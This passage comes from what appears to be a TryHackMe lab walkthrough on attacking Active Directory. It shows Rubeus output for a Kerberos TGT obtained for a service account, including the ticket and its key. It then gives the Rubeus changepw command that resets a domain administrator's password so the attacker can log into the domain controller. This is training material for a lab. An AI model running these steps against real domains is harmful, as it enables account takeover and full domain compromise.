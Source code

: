 ```shell-session
             SYmNljeW2R0gsFWBaFt16AHfT9G9Et2nOCJn/D/OFePFyR4uJF44p82CmVlBhzOxnCaGtQM2v9lwBqQF
             CcVLjxGXqKrPUr1RUGthP861jhMoXD4jBJ/Q32CkgVdlJRMweqcIfNqP/4mEjbUN5qjNqejYdUb/b5xw
             S794AkaKHcLFvukd41VTm87VvDOp6mM5lID/PLtTCPUZ0zrEb01SNiCdB5IAfnV23vmqsOocis4uZklG
             CNdI1/lsICpS/jaK6NM/0oKehMg+h4VAFLx4HnTSY4ugbrkdxU948qxPEfok/P6umEuny7yTDQFoCUKk
             RuLXbtwwplYTGBDLfzwhcNX8kc/GGLbH9+B8zRXxhd3TGQ7ZT03r798AjobKx024ozt6g4gjS5k/yIT+
             f29XrPzc+UODunO2Qv8JM5NAE3L6ryHp/DdgTaXGBRccgQBeQERNz6wxkdVK6SB7juOjU5JoZ5ZfmTuO
             hQ5hnboH1GvMy4+zeU2P7foWEJE76i9uZMbjUilbWRERYUL/ZjjXQBVWBaxoAdFIoawAzSXUZniNavnS
             n22qqgbd79Zj+lRavAb7Wlk5Gul4G6LMkh2MIJ4JOnrV0JV1yOhoqZ5V6KX/2r7ecyrVZIf2Qf0+ci9G
             vboJiLvWKgXkx7VaKbcLhO743BNYyq57nPNvWhVt3jbFmEq4nTdNou6hQHG4O5hVMhBKGgTwYz3yFPOP
             iuxroniQawSUJbmwObxVeoculPhxEJ69MSgKROTXrKrQAJ84D5QJHQYZus6w+LtodZn1//ZLhgILeFsY
             5K6d4ot2eqEr/A4Vu+wFjGjw87FTvHVcf8HdtGhqkawtPOrzo4HxMIHuoAMCAQCigeYEgeN9geAwgd2g
             gdowgdcwgdSgKzApoAMCARKhIgQgQr+FUX+/G2jHgAR2ssW11+lhaPlB6dMD8V5/rENwJVWhERsPTFVO
             QVIuRVJVQ0EuQ09NohcwFaADAgEBoQ4wDBsKc3ZjLmdpdGxhYqMHAwUAQOEAAKURGA8yMDIyMDIwNjE3
             NTQ0NlqmERgPMjAyMjAyMDcwMzU0NDZapxEYDzIwMjIwMjEzMTc1NDQ2WqgRGw9MVU5BUi5FUlVDQS5D
             T02pJDAioAMCAQKhGzAZGwZrcmJ0Z3QbD2x1bmFyLmVydWNhLmNvbQ=
       
         ServiceName              :  krbtgt/lunar.eruca.com
         ServiceRealm             :  LUNAR.ERUCA.COM
         UserName                 :  svc.gitlab
         UserRealm                :  LUNAR.ERUCA.COM
         StartTime                :  2/6/2022 5:54:46 PM
         EndTime                  :  2/7/2022 3:54:46 AM
         RenewTill                :  2/13/2022 5:54:46 PM
         Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
         KeyType                  :  aes256_cts_hmac_sha1
         Base64(key)              :  Qr+FUX+/G2jHgAR2ssW11+lhaPlB6dMD8V5/rENwJVU=
         ASREP (key)              :  BF2483247FA4CB89DA0417DFEC7FC57C79170BAB55497E0C45F19D976FD617ED
```

We now need to use this TGT to gain access. This can be done using your favorite hacking framework like metasploit, cobaltstrike, or covenant. However, for the purpose of this walkthrough, we will be using Rubeus again. We will use the ticket to alter the password of one of the domain administrators. This will allow us to use the DA's credentials to log into the Domain Controller as administrator to recover the final flag. Open the **Active Directory Users and Computers** application and explore the domain structure, looking for the DAs:

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/8db71b1509a16803e8d0b589db82f7af.png)

Select one of the DAs to target and use the following command to alter their password:

`Rubeus.exe changepw /ticket:<path to ticket file> /new:<new password for user> /dc:LUNDC.lunar.eruca.com /targetuser:lunar.eruca.com\<username of targeted DA>`  

Once the command executes, it should alter the password for the associated DA account:

Resetting a user's password

```shell-session
C:\THMTools> .\Rubeus.exe changepw /ticket:svc.gitlab.kirbi /new:Tryhackme! /dc:LUNDC.lunar.eruca.com /targetuser:lunar.eruca.com\da-nread
           ______        _
          (_____ \      | |
           _____) )_   _| |__  _____ _   _  ___
          |  __  /| | | |  _ \| ___ | | | |/___)
          | |  \ \| |_| | |_) ) ____| |_| |___ |
          |_|   |_|____/|____/|_____)____/(___/
        
          v2.0.0
        
        [*] Action: Reset User Password (AoratoPw)
        
        [*] Using domain controller: LUNDC.lunar.eruca.com (10.10.69.219)
        [*] Resetting password for target user: lunar.eruca.com\da-nread
        [*] New password value: Tryhackme!
```